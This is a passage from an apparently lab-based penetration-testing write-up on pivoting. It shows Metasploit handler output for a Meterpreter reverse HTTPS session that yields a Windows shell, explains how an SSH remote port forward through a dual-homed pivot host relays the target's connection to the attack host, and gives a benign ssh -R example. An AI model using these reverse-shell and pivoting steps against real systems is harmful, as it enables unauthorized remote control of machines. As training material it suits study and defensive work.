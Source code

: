**Receive Meterpreter Session:**
```bash
# Metasploit handler output
[*] Started HTTPS reverse handler on https://0.0.0.0:8000
[*] https://0.0.0.0:8000 handling request from 127.0.0.1; Staging x64 payload...
[*] Meterpreter session 1 opened (127.0.0.1:8000 -> 127.0.0.1) at 2022-03-02 10:48:10 -0500

meterpreter > shell
Process 3236 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
C:\>
```

---

## **Technical Analysis**

### **Why Remote Port Forwarding Works**

**Network Isolation Problem:**
```
Windows Target (172.16.5.19) 
    ↓ (can only reach 172.16.5.0/23)
    ✗ Cannot reach Attack Host (10.10.15.x)
    ✓ Can reach Pivot Host (172.16.5.129)

Pivot Host (172.16.5.129)
    ↓ (has dual interfaces)
    ✓ Can reach Windows Target (172.16.5.19)
    ✓ Can reach Attack Host (10.129.202.64)
```

**Solution Flow:**
1. **Windows** connects to **Pivot:8080**
2. **SSH tunnel** forwards to **Attack Host:8000**
3. **Metasploit** receives connection as if local

### **Connection Source Analysis**
```bash
# On attack host - connection appears local
netstat -an | grep 8000
tcp 0 0 127.0.0.1:8000 127.0.0.1:xxxxx ESTABLISHED

# This is because SSH tunnel makes it appear local
```

---

## **Alternative Remote Port Forwarding Examples**

### **Example 1: HTTP Service Exposure**
```bash
# Expose local web server (port 80) to remote network
ssh -R 8080:localhost:80 user@remote_host

# Now remote_host:8080 serves your local web content
```
